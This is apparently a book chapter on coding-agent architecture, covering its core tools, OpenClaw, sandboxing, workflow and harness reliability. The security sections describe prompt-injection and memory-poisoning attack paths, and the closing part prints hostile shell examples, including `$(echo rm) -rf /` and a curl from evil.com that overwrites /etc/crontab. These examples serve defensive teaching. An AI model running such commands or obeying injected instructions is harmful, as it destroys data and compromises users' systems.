# Coding Agent and Code Generation

The previous chapters delved into context engineering (Chapters 2 and 3) and tool design (Chapter 4). This chapter assembles these components to answer a core question: **What does the architecture of a general-purpose Agent capable of handling arbitrary tasks look like?**

The answer is: **A general-purpose Agent targeting open-ended tasks** has at its core a **Coding Agent** (an Agent that can autonomously write, modify, and execute code) plus a **file system** — the workspace where the Agent stores code, data, memory, and intermediate results, analogous to how a programmer manages projects using folders on a computer. This conclusion comes from industrial practice — from Manus to OpenClaw, successful open-ended general-purpose Agents all follow the same paradigm: build a Coding Agent runtime with a small set of general tools (code execution, file read/write, search), then layer on capability modules like browser automation and web search. The applicability boundary of this conclusion will be discussed at the end of the section "From Manus to OpenClaw."

Why can code generation shoulder this responsibility? Because it is not just one tool in the toolbox, but a **meta-capability** — the ability to dynamically create new tools and capabilities at runtime. The latter half of this chapter (the section "Code: The Meta-Capability of a General-Purpose Agent") will fully expand on this concept and its six directions of application.

The value of code to an Agent manifests on two levels. In terms of **reasoning**, formalized code makes thinking highly rigorous — "age greater than 18 and identity verified" could have multiple interpretations in natural language, but written as `age > 18 and is_verified` it is unambiguous. In terms of **expression**, a piece of code that runs successfully is itself proof of logical consistency, and the execution result provides an objective standard of correctness — something natural language cannot achieve.

This chapter begins with the basic capabilities of a Coding Agent and the general-purpose Agent architecture (OpenClaw), then demonstrates the application of code generation in various scenarios — from mathematical reasoning and content creation to system-level meta-capabilities.

## Coding Agent

### Coding as a Foundational Agent Capability

**Code generation is not the exclusive domain of a few specialized Agents, but a foundational capability that every general-purpose Agent should possess.** With current SOTA models, equipping basic coding ability does not require complex architecture.

Consider a typical task: "Organize all leftover TODO comments in the repository, classify them by priority, and generate issues." Accomplishing this requires — browsing the directory structure (ls/glob), reading code (read), modifying files (edit/write), running commands (bash), and searching for patterns (grep/search). These five categories of operations cover almost all core actions of a Coding Agent and are precisely the origin of the seven tools detailed below. Strictly speaking, these five categories naturally correspond to six tools; the seventh, Code Interpreter, corresponds to operations like "execute code/compute," which in some implementations is simply merged with Bash — the seven tools are a standardized reference set and do not need a strict one-to-one mapping with the five operation categories.

A basic Coding Agent only needs to be equipped with the following seven core tools:

1. **Code Interpreter**: Provides an isolated sandbox environment (a secure runtime space isolated from the main system, where code execution errors will not affect the host), safely executing Python code
2. **Bash Shell**: Executes commands in a terminal, such as running test cases or processing specially formatted files
3. **Read File Tool**: Reads code, configuration, documentation, logs, etc.
4. **Write File Tool**: Creates new files or completely overwrites existing files
5. **Edit File Tool**: Performs partial modifications to existing files, a core operation for code maintenance and iteration
6. **Search File Name Tool (Glob)**: Quickly locates target files in the file system via pattern matching, e.g., using `**/*.py` to find all Python files in a project
7. **Search File Content Tool (Grep)**: Searches for specific text patterns within file content, e.g., finding all lines of code that call a certain function

These seven tools constitute a complete yet minimal toolbox that almost any Agent system can integrate at low cost. In implementation, they can all be exposed as standardized tool services via the MCP protocol introduced in Chapter 4. Note that this toolset is a basic configuration specific to Coding Agents, distinct from the five general tool categories (perception/execution/collaboration/event-triggering/user communication) classified by invocation direction and function nature in Chapter 4 — the seven core tools mainly cover the perception and execution categories. Readers might ask: what about the needs for collaboration, event triggering, and user communication? — In a Coding Agent, these are typically handled by the Agent framework (not the tool layer), for example, sub-agent delegation is managed by the framework's orchestration logic, not through dedicated collaboration tools.

Let's see how these seven tools work together with a simple task. Suppose the user says, "Help me compile a list of all TODO comments in the project":

```
Agent (thinking): Need to find all code lines containing TODO.
Agent → Grep("TODO", glob="**/*.py")          # Search file content
Tool returns:
  src/api.py:42: # TODO: add rate limiting
  src/db.py:15:  # TODO: migrate to PostgreSQL
  tests/test_api.py:8: # TODO: add edge case tests

Agent (thinking): Found 3 TODOs, compile them into a list and write to a file.
Agent → Write("TODO_LIST.md", content="...")   # Write file
Tool returns: File created

Agent: Done. Found 3 TODO items, the list is saved in TODO_LIST.md.
```

The entire process used only two tools: Grep (search content) and Write (write file). If the task were more complex — like "count the number of TODOs per module and draw a bar chart" — the Agent would also use the Code Interpreter to execute Python code for statistics and plotting. Although the seven tools are simple, combined they can accomplish a wide variety of tasks.

Why should every general-purpose Agent have coding ability? Because code generation is not just about writing programs — it is a general-purpose problem-solving method. For mathematical reasoning, you can write code and hand it to a solver for precise answers; for solidifying business rules, code is far more precise than natural language descriptions; if a tool is missing, you can write one on the fly; if the data format changes, you can dynamically generate parsing logic. Subsequent sections of this chapter will expand on these scenarios one by one. An Agent with basic coding ability, even if its toolbox contains only the seven simple tools mentioned above, can dynamically extend its capability boundaries when encountering new needs.

### Case Study: From Manus to OpenClaw — The Coding Core of General-Purpose Agents

General-purpose Agent products represented by Manus integrate three major capabilities — Deep Research, Computer Use, and Coding — into a single system, highlighting an insight repeatedly validated by diverse practices: **A Coding Agent plus a file system is the most fundamental technical foundation for open-ended general-purpose Agents.** The open-source project OpenClaw adopts a similar approach, demonstrating this architectural paradigm through open-source practice.

Why is the Coding Agent the core rather than the other two? Because almost all efficient content generation ultimately boils down to code. A PPT is essentially code in the OOXML format; Word documents and PDF reports can be generated via code; data analysis and visualization are done by Python scripts; even successful browser operation sequences in GUI manipulation can be solidified into reusable RPA code (Computer Use itself is covered in Chapter 9, and the mechanism for solidifying operation sequences is detailed in Chapter 8). Deep Research's search and information synthesis can be achieved through code-driven web requests and parsing. Although Computer Use is more versatile, its cost, latency, and stability are far inferior to completing the same operations directly through code or APIs. Code generation is the most efficient, lowest-cost, and most reusable capability foundation.



Let's understand this architecture through a concrete execution flow. Suppose the user requests, "Help me analyze last quarter's sales data and create a summary report":

1. **Read Memory**: The Agent reads `MEMORY.md` and discovers the user prefers PDF format reports and the data source is Google Sheets
2. **Call Tools**: Obtains usage instructions for the Google Sheets API via the web search module, downloads data via code execution
3. **Write Code**: Generates a data analysis script in Python (pandas aggregation, matplotlib visualization)
4. **Generate Artifacts**: Writes the analysis results to `report.pdf`, charts to the `charts/` directory
5. **Update Memory**: Records in `MEMORY.md` that "User's sales data is in Google Sheets, ID: xxx," so it doesn't need to ask next time

Throughout the process, the file system is the hub of information flow — memory is read from files, artifacts are written to files, and experience is also saved as files.

**The File System as the Agent's Central Hub.** In OpenClaw's design, the file system is far more than data storage — it is the central hub for the Agent's memory, knowledge, and capabilities. The Agent's long-term memory is stored in `MEMORY.md` (high-level facts and user preferences) and Markdown logs archived by date. Choosing Markdown over a vector database may seem counterintuitive, but it is extremely effective: users can directly open files to read and modify the Agent's memory (if the Agent misremembers something, just delete that line), Markdown naturally preserves chronological order to avoid temporal confusion in semantic retrieval, and it supports version control and rollback via Git.

More critically, the Agent has the ability to write files, which means it can **self-evolve** through writing. When an Agent performs a task for the first time and discovers previously unknown key information (e.g., when calling a certain bank, it learns that the bank requires the account's branch address for identity verification), it writes this experience into the knowledge base, automatically loading it the next time it performs the same task. This "gets smarter with use" mechanism is essentially a concrete practice of the externalized learning paradigm that will be discussed in depth in Chapter 8.

**Applicability Boundary: Which Agents Have Coding as Their Core Architecture.** The conclusion that "the Coding Agent is the core of a general-purpose Agent" mainly applies to **general-purpose Agents targeting open-ended tasks** — scenarios like deep research, content generation, and data processing, where task boundaries are uncertain and artifact forms are diverse. In these scenarios, it is impossible to enumerate all needed tools in advance; code generation, as a meta-capability, provides the most economical path for dynamically expanding capability boundaries, making it the core of the architecture. Another type of Agent — vertical domain customer service Agents, voice assistants — has relatively closed task spaces, with core architectures built around fixed business processes, domain tools, and dialogue strategies; code here is more of a tool in the toolbox than an architectural hub (in the τ-bench example later in this chapter, code plays the role of a policy verification tool). However, even in the latter, coding is an indispensable foundational capability: precise calculation, data processing, and rule verification all depend on it — this echoes the assertion in the previous section, "Coding as a Foundational Agent Capability": whether coding is the core architecture depends on the scenario, but possessing coding ability is a common baseline for all Agents.

### Sessionless Design

Next, we discuss two designs — the "always available" interaction mode and the security architecture — which may seem unrelated to the Coding Agent topic at first glance. However, they directly determine how the Agent manages the code execution environment and file system state, which are core concerns of a Coding Agent. (Readers who want to first understand how a Coding Agent works step by step can skip ahead to the "Overall Flow of a Coding Agent" section later and return here for interaction and security design.)

OpenClaw adopts a **Sessionless** design: there is no installation, login, or "open the app" steps; the Agent is always online, and users can send a message at any time via the messaging platform they already use to get a response — this interaction paradigm and its underlying Gateway message routing and event-driven architecture have been discussed in detail in the user communication tool section of Chapter 4 and will not be repeated here. What is worth emphasizing is the prerequisite for this paradigm to work: large models have matured enough to serve as a new kind of "intelligent foundation" — similar to how a traditional operating system abstracts hardware and provides a unified interface for upper-layer applications, large models abstract the complexity of language understanding, reasoning, and planning, providing a unified intelligent abstraction for upper-layer Agents. It is precisely because of this foundation that the "always online + instant response" paradigm can be engineered at low cost.

For a Coding Agent, the real engineering challenge of Sessionless is **how the code execution environment and file system state persist across messages**. Two user messages might be minutes apart or days apart, and the Agent's work relies on a large amount of implicit state: dependency packages installed in the sandbox, the working directory and environment variables in the terminal session, a development server running in the background, files written halfway. OpenClaw's approach is to manage state in two layers. **File system state is inherently persistent** — the workspace directory is mounted on persistent storage outside the sandbox, so code, data, and intermediate artifacts survive across messages and sandbox restarts; this is another meaning of "the file system as the Agent's central hub." **Process state is kept alive or rebuilt on demand** — the sandbox and its terminal session remain running during active periods to avoid cold starts, re-changing directories, and re-activating virtual environments for each message; they are destroyed after an idle timeout to reclaim resources, but before destruction, serializable environment state (working directory, environment variables, background task list) is recorded in workspace files, and the Agent rebuilds from these records upon the next wake-up. The persistent terminal session discussed in the "State Persistence of the Command Execution Environment" section later in this chapter is the counterpart of this mechanism within a single task; Sessionless extends the same problem to a time scale spanning messages and days.

Sessionless is not maintenance-free — it means that each user message requires **reloading the complete trajectory and working state**, thus imposing higher demands on state serialization efficiency and trajectory compression strategies; the design principles of trajectory compression itself have been discussed in the "Context Compression Strategies" section of Chapter 2, while this chapter focuses on the engineering trade-offs under the Sessionless architecture.

### The Fatal Triad, Persistent Memory, and Permission StrategyThis "sovereign agent" paradigm also introduces severe security challenges. A Coding Agent has permissions to read and write files, execute commands, and access networks, meaning that once injected with malicious instructions, it could cause irreversible damage. Developer and independent researcher Simon Willison summarized this risk with his famous "Lethal Triad"—when all three elements are present, they form a complete attack loop, putting the system at high risk:

1.  **Access to Private Data** — The Agent can read user files and password managers.
2.  **Exposure to Untrusted Content** — Processed emails and web pages may contain malicious payloads.
3.  **Ability to Communicate Externally** — It can send emails and execute commands.

The attack path is thus closed: malicious instructions hidden in untrusted content enter the Agent, drive it to read private data, and then exfiltrate it through external channels. Note that the presence of all three elements is dangerous enough on its own, without any additional conditions. Building on this, the author adds a fourth dimension—**Persistent Memory**. This is not a parallel fourth necessary condition, but an amplifier for attacks: an attacker can write seemingly harmless biases or malicious instructions into the Agent's long-term memory, allowing them to lie dormant across sessions and trigger at an opportune moment, upgrading a one-time attack into a long-term latent and amplified threat.

These four points can be summarized as four types of boundaries: data boundary, input trust boundary, output impact boundary, and cross-session boundary. A full-permission local Agent like OpenClaw possesses all four, making security protection a core challenge that such Agents must confront.

This also explains why closed-source commercial Agents (like Claude Cowork (Anthropic's general-purpose Agent for knowledge work, reusing Claude Code's agentic architecture, capable of reading and writing local files and completing multi-step tasks across multiple office applications)) have chosen conservative permission strategies—not because the technology is incapable, but because the security risks are too high. Against prompt injection threats, relying solely on input filtering is largely ineffective. The focus is not on identifying all attacks, but on ensuring that even if the Agent is injected, it has no opportunity to actually execute dangerous actions. The defense system has been established layer by layer in the previous two chapters: **Context Layer Defense** — marking external content sources, structured role isolation, input sanitization — see the prompt injection section in Chapter 2; **Execution Layer Defense** — Sidecar independent review, Human in the loop, least privilege and privilege separation — see Chapter 4. It is difficult for an Agent within the same context to determine if it has been injected, so critical operations must be reviewed by mechanisms outside that context. This principle runs through both chapters. This chapter only adds three specific increments unique to Coding Agents:

- **Command Semantic Parsing** — The combinatorial explosion of Shell commands makes keyword blacklists useless; the real effect of a command must be understood at the semantic level (detailed in the "Harness Engineering" section later in this chapter);
- **Sandbox Isolation and Network Egress Control** — Code execution is an attack surface unique to Coding Agents; the engineering choices for isolation levels and egress strategies are covered in the next section;
- **Cross-Session Defense for Persistent Memory** — This is an extended item specifically emphasized in this chapter beyond the Lethal Triad: content written to long-term memory must undergo the same trust review as external content, preventing malicious instructions from lying dormant in `MEMORY.md` and taking effect long-term.

These three increments fall into the verification, execution, and data layers respectively, complementing the defense system from the previous two chapters. These strategies cannot completely eliminate risk, but they can reduce the Agent's attack surface.

**Security Content Map for This Chapter.** The security discussion for Coding Agents is scattered across several places in this chapter. Here is an index to help readers connect the dots: This section (Lethal Triad and Persistent Memory) outlines the *threat model* — which risks are most lethal; the next section, "Engineering Choices for Code Execution Sandbox," focuses on *isolation as a safety net* — engineering choices for network egress, file system, resources, and persistent sessions; the "Harness Engineering" section expands on *execution-time defense* — semantic parsing of commands (not keyword blacklists), speculative execution to make security checks "invisible," and two optional extended topics more relevant to general Agent security: "Who Does the Agent Serve?" (loyalty under multi-party delegation) and "When the Code Written by AI Itself Is Untrustworthy" (moving the trust boundary down to the data layer). These discussions have different focuses and complement each other; they don't need to be read in order all at once.

### Engineering Choices for Code Execution Sandbox

This chapter repeatedly assumes a "sandbox" as a prerequisite—the Code Interpreter among the seven core tools requires an isolated environment, and the security strategy relies on isolation as a safety net. But a sandbox is not a switch; it's a series of engineering decisions. Chapter 4 already answered "why isolate," the hierarchical principles of isolation mechanisms (the three-tier spectrum: process-level isolation, containers, microVM), and the selection rule of "process-level for personal local machines, containers for single-tenant cloud, microVM/gVisor for multi-tenant or untrusted code"; this section will not repeat that spectrum, only supplement four increments that are unavoidable when implementing a Coding Agent and were not covered in Chapter 4: how to manage network egress, how much of the file system to mount, how to limit resources, and how to reconcile persistent sessions with isolation.

**Network Egress Control.** This is the most easily overlooked but most critical item: disconnect from the network by default, and only allow access to limited destinations (package sources, documentation sites, APIs explicitly required by the task) on demand through a whitelist proxy. Looking back at item 3 of the Lethal Triad—"Ability to Communicate Externally"—network egress control is its execution-layer defense: even if a prompt injection succeeds and malicious code reads sensitive data inside the sandbox, without an egress, it cannot be transmitted. Compared to trying to identify every injection, cutting off the data exfiltration channel is a much more deterministic line of defense.

**File System Isolation Scope.** Mount the source code directory as read-only (the Agent modifies code through editing tools, and the generated patches are reviewed before being written to disk, or a copy is mounted into a writable workspace); a separate writable workspace directory holds generated artifacts and intermediate files; credential files (`~/.ssh`, keys, tokens) are not mounted into the sandbox at all—invisible data cannot be leaked, corresponding to item 1 of the Lethal Triad.

**Resource Limits and Timeouts.** Set quotas for CPU, memory, and disk, plus a wall-clock timeout, to defend against infinite loops, fork bombs (a process that rapidly replicates itself until the system crashes), and unlimited disk writes. A practical detail: timeouts and limit violations should return a structured error to the Agent ("Execution terminated after 120 seconds, last output was...") rather than silently killing the process, giving the Agent a chance to revise its strategy in the next turn.

**Reconciling Persistent Sessions and Isolation.** The later section "State Persistence for Command Execution Environments" advocates for maintaining long-lived terminal sessions, while the isolation principle advocates for disposable environments—there is tension between the two. The reconciliation approach is: **keep the session alive inside the sandbox**, the terminal session's lifecycle strictly does not exceed the sandbox's lifecycle, and session state never escapes to the host machine; for scenarios requiring recovery across long time intervals (like the Sessionless architecture mentioned earlier), rely on sandbox snapshots or "workspace file persistence + environment reconstruction via scripts" to restore state, rather than indefinitely extending the sandbox's lifetime. In other words, what is persisted is **auditable state descriptions** (files, scripts, manifests), not opaque running processes.

### The Overall Workflow of a Coding Agent





The following describes a **recommended engineering workflow**. It projects software engineering best practices onto the Agent, outlining an ideal form. Real-world Coding Agents (like Claude Code, OpenClaw) more often work in a reactive iterative loop and will **trim this workflow as needed**—simple tasks will skip design documents and won't block waiting for user approval at every step; only when a task is complex and has a broad impact will they fully go through each stage.

**Project Documentation.**

A Coding Agent's work begins with a systematic understanding of the project. When an Agent first encounters a code repository, its primary task is not to immediately start modifying code, but to first establish a cognitive framework for the entire project—just like a new engineer on their first day doesn't directly submit code but first familiarizes themselves with the project structure. The Agent will first check if the project has documentation—README, architecture design documents, developer guides.

If key documents are missing, the Agent should not start working blindly but should proactively take on the responsibility of documentation—by systematically reading the codebase, identifying main modules, core abstractions, and dependencies between components, and generating initial documents containing an architecture overview, directory structure, and test running guide. This document serves as a blueprint for the Agent's subsequent work and provides an entry point for other developers. This embodies a key principle: the externalization of knowledge is a prerequisite for efficient collaboration.

Project documentation now has a form specific to Agents: **Project Instruction Files**. Files like CLAUDE.md, AGENTS.md, .cursorrules have become de facto industry standards—they are automatically injected into the context at the start of every session, acting as project-level system prompts. Unlike READMEs intended for human readers, instruction files carry behavior conventions for Agents: build and test commands ("use `pnpm test` instead of `npm test`"), code style ("disable the any type"), and clear restricted zones ("do not modify the `migrations/` directory"). This is the same idea as OpenClaw's `SOUL.md` (defining the Agent's identity and behavior rules) and `MEMORY.md` (accumulating cross-session experience), applied at different levels: SOUL.md defines "who the Agent is," while project instruction files define "how to work in this project." From the perspective of context engineering in Chapter 2, instruction files are also the most economical stable prefix—their content doesn't change with the task, making them naturally KV Cache-friendly; they are also the most direct implementation of the principle that "knowledge must exist within the codebase itself."

The principle of knowledge externalization also has an interesting corollary: **Teams that are friendly to remote work are often also friendly to AI Agents.** Remote teams are forced to rely on asynchronous communication and documentation—decisions are recorded in documents, context is written in issue and PR descriptions, tribal knowledge is deposited in developer guides, rather than relying on oral transmission by the water cooler or whiteboard meetings. This is precisely the form of knowledge that Agents can consume: Agents cannot read verbal agreements, but they can read design documents. Conversely, a team that heavily relies on "asking the colleague sitting next to me" will have equally high onboarding costs for a new remote employee and an Agent. A simple proxy metric for assessing a team's "AI-readiness" is whether a remote newcomer can work independently relying only on the code repository and documentation.

**Task Understanding and Requirements Clarification.**

For simple requirements with clear boundaries and limited impact—such as fixing a known bug or adjusting a function's parameters—the Agent can proceed directly to the implementation phase. However, most tasks in software development are not this simple.

For complex requirements, the Agent must be more cautious and methodical. Complexity can arise from multiple dimensions: the ambiguity of the requirement itself (the user knows what they want but cannot express it precisely), the diversity of implementation paths (multiple technical solutions with their own trade-offs), or the breadth of impact (requiring modifications to multiple modules, potentially breaking existing functionality). The Agent should clarify boundaries through exploratory research and proactively engage in dialogue with the user when necessary. For example, when a user asks to "optimize system performance," the Agent needs to first figure out: what is the specific goal of the optimization (reduce response time, decrease memory usage, or increase throughput), what trade-offs are acceptable (is increased code complexity allowed), and where the current bottleneck lies. Starting to code while the requirements are still vague often leads to significant rework.

**Writing a Design Document.**

A design document is a bridge that translates abstract requirements into a concrete implementation plan. It should answer core questions: which modules to modify and why, which solution to adopt and its relative advantages, what new dependencies need to be introduced, and the expected impact on the system. Writing a design document is itself deep thinking—it forces the Agent to conceptually validate the feasibility of a solution before investing heavily in coding. More importantly, the design document provides an efficient intervention point for humans—reviewing a concise design document is much easier than reviewing hundreds of lines of code. After completing the design document, the Agent should submit it for user review and wait for approval before proceeding.

**Code Implementation and Testing.**

After obtaining design approval, the Agent follows the project's code conventions for implementation, reuses existing abstractions and tools, and performs moderate refactoring when necessary to maintain the health of the codebase.

After implementation, the Agent immediately enters a test-driven quality assurance phase—writing test cases for the new or modified functionality, covering normal paths, boundary conditions, and error scenarios. After writing the tests, the Agent executes the test suite. If tests fail, the Agent should not simply report the failure to the user but should analyze the cause, locate the problem, and modify the code until all tests pass. This "test-fix" loop may require several iterations, and it is this self-correcting ability that elevates a Coding Agent from a code generator to a reliable engineering assistant.

Even if all tests pass, the Agent's work is not done. The next phase is code review: the Agent critically examines its own generated code—is it readable, are there sufficient comments; are there potential performance issues or security vulnerabilities; does it follow the project's code style and best practices. This self-review can be achieved by reading the code, running lint tools, or calling a dedicated code review sub-agent. If the review finds issues, the Agent should return to the modification phase to improve them, rather than delivering flawed code to the user.

**Documentation Synchronization and Delivery.**

If the code changes involve architectural-level modifications—such as introducing a new module, changing dependencies between modules, or altering the semantics of core abstractions—the Agent needs to update the architecture documentation accordingly. Outdated documentation is worse than no documentation because it misleads future developers. By automatically updating documentation after every significant change, the Agent helps maintain the integrity and timeliness of the project's knowledge base.

This workflow embodies the core principles of software engineering: planning precedes action, verification runs throughout, and documentation evolves together with the code.
### Harness Engineering in Practice for Coding Agents

Chapter 1 introduced the concept of Harness Engineering and the formula **Agent = Model + Harness**. The Harness here includes the context and tools from the core formula, as well as constraints, verification, and correction mechanisms—these five elements together constitute the Harness defined in Chapter 1. Coding Agents are perhaps the domain that benefits most from Harness Engineering—code writing is the **most verifiable** type of Agent task, with existing infrastructure for constraints, verification, and correction. This section focuses on specific practices in the Coding Agent scenario.

Whether a system runs stably often depends less on the power of the model and more on the robustness of the infrastructure built around the Agent. Chapter 1 divides the Harness into two layers—**Context and Tools** (enabling the Agent to act) and **Constraints, Verification, and Correction** (preventing the Agent from doing wrong). In the Coding Agent scenario, these translate into specific engineering components:

- **Acceptance Baseline**: What constitutes "done"—test suites, CI pipeline (Continuous Integration pipeline, a series of checks automatically run after code submission), code review standards
- **Execution Boundary**: What the Agent can and cannot touch—module boundaries, dependency rules, permission controls
- **Feedback Signals**: Automated correctness judgments—Linter (code style checking tool that can automatically find formatting errors and potential issues) output, test results, type checking errors
- **Rollback Mechanism**: How to recover if something goes wrong—Git version control, sandbox isolation, snapshot rollback

**Why Coding Agents Are Particularly Suitable for Harness Engineering.**

Tasks can be categorized into four states using two dimensions: task clarity and degree of verification automation. Tasks with clear goals and automatically verifiable results are the best area for Agents to operate; when the goal is clear but verification still requires human oversight, the throughput ceiling is the human review speed; with automated feedback but a vague goal, the system will efficiently run in the wrong direction; lacking both, the Agent is largely useless. Table 5-1 shows these four states. The goal of the Harness is to push as many tasks as possible into the "clear goal + automated verification" quadrant.Table 5-1 Four Quadrants of Task Clarity and Verification Automation

| | Results can be automatically verified | Results require manual verification |
|---|---|---|
| **Clear goal** | Sweet spot: fixing bugs with test cases | Throughput-limited: code refactoring requires manual review |
| **Vague goal** | Efficiently going off track: optimizing "code quality" with a linter | Hard to start: "make the UI look better" |

Code writing naturally sits at the core of this quadrant—test suites provide clear acceptance criteria, linters and type checkers offer instant automated verification, and Git provides perfect version control and rollback capabilities. This explains why Coding Agents are currently the most mature among all agent types: not because code generation models are particularly powerful, but because decades of software engineering infrastructure naturally constitute a robust Harness.

**Industry Practice.**

Three case studies of Harness practice confirm the above principles:

- **Large-scale code migration case** (from a large tech company's publicly shared large-scale code migration practice): The key was not the model's strength, but the Harness doing three things right—knowledge must exist within the codebase itself (what the Agent cannot see does not exist), constraints are encoded into linters and CI rather than written in documentation, and verification and correction are fully automated end-to-end.
- **LangChain**: Significantly improved benchmark task performance solely by optimizing the Harness (system prompts, tool middleware, self-verification loops). Particularly noteworthy is the methodology of "using an Agent to analyze failure trajectories to improve the Harness," shifting Harness engineering from experience-driven to data-driven.
- **Anthropic**: Splits long tasks into two roles—an initialization Agent responsible for breaking down large tasks into a task list, and an execution Agent responsible for progressing step by step, leaving intermediate results (such as completed code files, updated task lists, etc.) for the next round to continue using. This division of labor solves the problem of long-running Agents "trying to do too much at once" or "claiming completion prematurely."

**From Coding Agent to General Harness Design Principles.**

The Harness practices of Coding Agents provide transferable design principles for all agent systems:

1. **Constraints over guidance**: Rules that can be enforced with code should not be suggested in documentation. The value of linter rules, type constraints, and CI checks far exceeds "please follow..." guidance in system prompts—the former means "cannot be done," the latter is merely "advised against."
2. **Automate verification**: Manual review is an unscalable bottleneck. Investment in test suites, code quality checks, and behavior monitoring yields far higher returns than adding more human effort.
3. **Feedback should be as fast and structured as possible**: The more detailed the error message and the closer it is to the moment of error, the higher the Agent's correction efficiency. The Agent status bar techniques from Chapter 2 (detailed error messages, tool call counters) embody this principle.
4. **Rollback must be reliable**: Agents can only experiment boldly when operating within a safety net. Git branches, sandbox environments, and snapshot mechanisms ensure any error is reversible.

**Reliability Engineering.**

The above principles are pushed to the extreme in production-grade Agents like Claude Code. Chapter 1 outlined the core functions of the Harness from dimensions such as context and tools, constraints, verification, and correction; this section focuses on the Coding Agent scenario, demonstrating the complexity of implementing these functions in real-world engineering. Production-grade Agents mainly face three types of boundary issues: **output interruption** (model errors mid-generation), **connection stall** (long periods without response), and **internal state loops** (Agent gets stuck in repetitive operations). The following explains the countermeasures for each.

**Error Recovery: Engineering Implementation of Multi-Level Recovery Strategies**. The correction principle proposed in Chapter 1—do not expose intermediate states until recovery is confirmed impossible—requires a specific recovery gradient in Coding Agents. Taking the example of a model output hitting the length limit (truncated mid-generation): Level one, silently increase the capacity limit and retry; Level two, append meta-instructions at the end of the message to let the model continue generation from the breakpoint; Level three, only expose the error to the user after all automatic recovery methods are exhausted. Similarly, when the conversation structure is abnormal (e.g., a tool call lacks a paired result message), the system automatically repairs the message pairing rather than reporting an error. Notably, some production-grade Agents run both production mode and training data collection mode simultaneously, which have different data quality requirements: in production mode, placeholders can be used to patch missing messages, but in the strict mode of training data collection, repair is refused—because injecting synthetic placeholders into training data would pollute the model. This dual standard of "lenient in production mode, strict in training mode" reflects the deep coupling between the Harness and model training.

**Resilience of Streaming Connections**. The most dangerous failure mode of streaming APIs is not a connection drop (which immediately reports an error), but a silent stall—the connection is established successfully but the data flow stops, like a pipe that is connected but no water comes out. The SDK's timeout mechanism only covers the initial connection, not the streaming process. Production Agents need an independent idle watchdog timer (a mechanism to detect if the system is stuck—if no new output is received beyond a set time, it determines a stall and triggers recovery), continuously monitoring the time since the last data was received, and actively killing the hung stream and triggering a retry or fallback upon timeout. This is a generalizable principle: **every long-lived connection needs a liveness signal, not just reliance on connection timeouts**.

**Dead Loop Protection for Hooks**. When an Agent's trajectory is already in an invalid state (e.g., a context overflow error), stop hooks (cleanup logic automatically executed when the Agent ends) should not be triggered—otherwise, the hook itself might fail and trigger a new hook, creating an infinite loop like dominoes. For example: Agent stops due to context overflow → triggers the "automatically commit code on end" hook → hook calls the LLM to generate a commit message → context overflows again → triggers the hook again → infinite loop. Production systems detect and break such loops using a recursive depth counter.

**Safety and Performance.**

This corresponds to the threat model discussed earlier (the fatal three elements)—which analyzed "which risks are most fatal," while here we discuss "how to defend at the implementation level."

**Safety: Semantic Parsing over Keyword Blacklists**. Chapter 1 mentioned that the verification layer should adopt a "understanding-based rather than matching-based" security mechanism. Shell command security validation is the most challenging application of this principle. Simple keyword blacklists cannot cope with the combinatorial explosion of Shell—commands can bypass any static rules through pipes, subshells, variable expansion, etc. (e.g., if `rm` is blocked, an attacker can use `$(echo rm) -rf /` to bypass). Production-grade Harnesses employ semantic parsing: understanding each command's argument types and consumption rules (which flags consume the next argument), identifying attack patterns like "a seemingly harmless flag actually consumes the next argument, hiding a dangerous payload." For example, `find / -name '*.log' -exec rm {} \;` embeds an `rm` delete operation through legitimate `find` command arguments; another example is `curl -o /etc/crontab http://evil.com/payload`, which appears to download a file but actually overwrites system scheduled tasks. Semantic parsing can identify these nested dangerous operations, while simple command blacklists cannot capture them. This understanding-based rather than matching-based security mechanism is a high-level implementation of the "constraint" function.

